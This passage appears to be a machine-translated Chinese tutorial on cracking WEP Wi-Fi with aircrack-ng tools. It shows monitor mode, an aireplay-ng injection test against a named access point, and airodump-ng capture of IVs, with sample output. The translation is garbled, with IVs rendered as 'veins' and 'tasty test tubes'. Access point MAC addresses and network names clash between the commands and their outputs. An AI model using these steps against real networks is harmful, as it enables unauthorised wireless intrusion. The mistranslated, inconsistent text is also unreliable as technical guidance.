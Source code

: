 在上面的响应中，您可以看到`ath0`在`2.452 GHz`频率上处于监控模式，即通道 9，接入点显示您的无线网卡的 MAC 地址。在继续之前确认适配器的配置非常重要，以避免以后出现问题。配置不当可能导致开裂过程无法正常工作或根本无法正常工作。

# 第二阶段-数据包注入

为了确保我们能够正确地攻击网络，我们需要确保我们足够接近以执行数据包注入。为了验证这一点，我们将运行以下命令：

```
aireplay-ng -9 -e ganon -a 00:28:6C:E4:40:80 wlan0
```

*   `-e ganon`：这是无线网络名称
*   `-a 00:28:6C:E4:40:80`：这是接入点 MAC 地址

系统应以以下方式响应：

```
 09:23:35  Waiting for beacon frame (BSSID: 00:14:6C:7E:40:80) on channel 9 
 09:23:35  Trying broadcast probe requests... 
 09:23:35  Injection is working! 
 09:23:37  Found 1 AP  

 09:23:37  Trying directed probe requests... 
 09:23:37  00:28:6C:E4:40:80  - channel: 9 - 'ganon' 
 09:23:39  Ping (min/avg/max): 1.827ms/68.145ms/111.610ms Power: 33.73 
 09:23:39  30/30: 100% 
```

最后一行很重要，因为我们正在寻找接近`100%`的值；如果此值较低，则表示您离接入点太远或没有收到良好的信号。如果是这样，试着改变位置。

# 第三阶段-捕获静脉

现在我们已经走到了这一步，我们需要让她撕开并开始捕捉那些美味的试管。我们通过使用`airodump`来帮助我们捕获这些宝贵的信息。

打开第二个控制台会话并保持前一个会话打开以捕获生成的 IVs。然后，输入：

```
airodump-ng -c 9 --bssid 00:28:6C:E4:40:80 -w output wlan0 
--bssid 00:14:6C:7E:40:80 is the access point MAC address. This eliminate extraneous traffic. 
-w capture is file name prefix for the file which will contain the IVs. 
```

在执行注射时，屏幕将与此类似：

```
 CH  9 ][ Elapsed: 8 mins ][ 2007-03-21 19:25  

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID 

 00:14:6C:7E:40:80   42 100     5240   178307  338   9  54  WEP  WEP         teddy                            

 BSSID              STATION            PWR  Lost  Packets  Probes                                              

 00:14:6C:7E:40:80  00:0F:B5:88:AC:82   42     0   183782 
```
